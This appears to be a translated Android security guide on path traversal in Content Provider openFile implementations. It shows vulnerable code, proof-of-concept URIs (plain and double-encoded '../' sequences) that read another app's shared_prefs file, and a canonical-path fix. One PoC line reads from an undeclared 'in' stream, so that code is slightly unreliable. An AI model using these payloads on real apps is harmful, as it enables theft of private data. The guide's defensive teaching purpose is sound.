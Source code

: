 **Case 3:openFile file traverse**

* [WooYun: Ganji Android client's Content Provider module has arbitrary file access vulnerability ](http://www.wooyun.org/bugs/wooyun-2013-044407)
* [WooYun: Liebao browser's (Android Edition) any private file can be accessed through local third-party theft vulnerability ](http://www.wooyun.org/bugs/wooyun-2013-047098)
* [WooYun: 58 Android client-side remote file write vulnerability ](http://www.wooyun.org/bugs/wooyun-2013-044411)

Override openFile method

Error writing 1:

    private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
    public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
        throws FileNotFoundException {
      File file = new File(IMAGE_DIRECTORY, paramUri.getLastPathSegment());
      return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
    }

Error writing 2:URI.parse ()

    private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
    public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
        throws FileNotFoundException {
        File file = new File(IMAGE_DIRECTORY, Uri.parse(paramUri.getLastPathSegment()).getLastPathSegment());
        return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
    }

POC1：

    String target = "content://com.example.android.sdk.imageprovider/data/" + "..%2F..%2F..%2Fdata%2Fdata%2Fcom.example.android.app%2Fshared_prefs%2FExample.xml";
     
    ContentResolver cr = this.getContentResolver();
    FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));
     
    byte[] buff = new byte[fis.available()];
    in.read(buff);

POC2：double encode

    String target = "content://com.example.android.sdk.imageprovider/data/" + "%252E%252E%252F%252E%252E%252F%252E%252E%252Fdata%252Fdata%252Fcom.example.android.app%252Fshared_prefs%252FExample.xml";
     
    ContentResolver cr = this.getContentResolver();
    FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));
     
    byte[] buff = new byte[fis.available()];
    in.read(buff);

Solution Uri.decode ()

    private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
      public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
          throws FileNotFoundException {
        String decodedUriString = Uri.decode(paramUri.toString());
        File file = new File(IMAGE_DIRECTORY, Uri.parse(decodedUriString).getLastPathSegment());
        if (file.getCanonicalPath().indexOf(localFile.getCanonicalPath()) != 0) {
          throw new IllegalArgumentException();
        }
        return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
      }
